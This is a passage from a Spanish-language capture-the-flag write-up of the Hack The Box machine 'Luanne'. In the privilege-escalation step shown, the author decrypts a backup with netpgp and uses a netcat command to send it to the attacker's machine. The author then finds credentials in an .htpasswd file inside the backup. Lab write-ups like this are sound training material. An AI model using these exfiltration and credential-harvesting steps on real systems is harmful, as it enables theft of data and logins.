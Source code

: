 ## ELEVACION DE PRIVILEGIOS

vemos un directorio backups y en el un archivo con la extension **.tar.gz.enc** para un archivo comprimido pero cifrado (por el .enc), averiguando un poco vi que hay una herramienta para BSD para decifrar esros archivo llamada netpgp, usemosla:

```bash
netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output /tmp/data.tar.gz
```

lo guardo en **/tmp** ya que ahi se tiene permisos de escritura. Vamos a transferir la carpeta descifrada a nuestra maquina kali por netcat:

```bash
nc 10.10.14.4 4545 < data.tar.gz


rlwrap nc -lvnp 4545 > data.tar.gz
```

y lo descomprimimos:

```bash
tar -xf data.tar.gz
```

si lo vemos con **tree**:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LUANNE/images/26.png)

tiene la misma estructura donde se encontraban las credenciales, de hecho hay un archivo llamado .htpasswd donde encontramos credenciales, veamos si son las mismas:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LUANNE/images/27.png)
